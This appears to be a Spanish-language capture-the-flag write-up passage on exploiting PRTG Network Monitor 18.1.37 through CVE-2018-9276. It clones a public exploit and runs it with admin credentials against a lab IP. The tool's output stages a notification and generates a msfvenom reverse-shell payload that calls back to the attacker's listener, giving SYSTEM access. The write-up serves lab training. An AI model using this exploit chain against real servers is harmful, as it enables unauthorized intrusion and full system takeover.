 Verificando la versión de la aplicación de **PRTG**, nos encontramos que se trata de la versión **18.1.37.13946**.

<figure><img src="../../../.gitbook/assets/imagen (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscando en internet sobre vulnerabilidades de esa versión del software, nos encontraamos con el siguiente `CVE-2018-9276`.

{% hint style="danger" %}
Se ha descubierto un problema en PRTG Network Monitor en versiones anteriores a la 18.2.39. Un atacante que tenga acceso a la consola web de administrador del sistema PRTG puede explotar una vulnerabilidad de inyección de comandos del sistema operativo (tanto en el servidor como en los dispositivos) enviando parámetros mal formados en escenarios de gestión de sensores o notificaciones.
{% endhint %}

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2018-9276" %}

Por otro lado, nos encontramos con el siguiente repositorio con el exploit para aprovecharnos y abusar de esta vulnerabilidad.

{% embed url="https://github.com/A1vinSmith/CVE-2018-9276" %}

Nos descargaremos el proyecto de GitHub del exploit.

```bash
❯ git clone https://github.com/A1vinSmith/CVE-2018-9276.git; cd CVE-2018-9276
Clonando en 'CVE-2018-9276'...
remote: Enumerating objects: 61, done.
remote: Counting objects: 100% (61/61), done.
remote: Compressing objects: 100% (61/61), done.
remote: Total 61 (delta 19), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (61/61), 20.57 KiB | 2.06 MiB/s, listo.
Resolviendo deltas: 100% (19/19), listo.
```

Realizaremos la explotación, indicaremos la dirección IP de la máquina víctima, nuestra dirección IP y el puerto donde estaremos en escucha y le especificaremos las credenciales de acceso al `PRTG Network Monitor`.

Al realizar la explotación, verificamos que logramos obtener acceso al sistema víctima y en este caso disponemos de acceso como usuario `NT AUTHORITY\SYSTEM`.

```bash
❯ python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.16.5 --lport 443 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.5 LPORT=443 OUTPUT=/tmp/lbcrsykv.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
```